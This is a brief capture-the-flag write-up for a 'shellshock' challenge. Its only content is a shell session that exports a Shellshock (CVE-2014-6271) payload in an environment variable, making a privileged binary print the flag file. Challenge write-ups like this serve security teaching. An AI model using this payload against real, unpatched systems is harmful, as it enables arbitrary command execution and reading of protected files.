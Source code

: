# shellshock Writeup

## Solution

```bash
shellshock@ubuntu:~$ export x="() { :; }; /bin/cat flag;"
shellshock@ubuntu:~$ ./shellshock 
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$ 
```

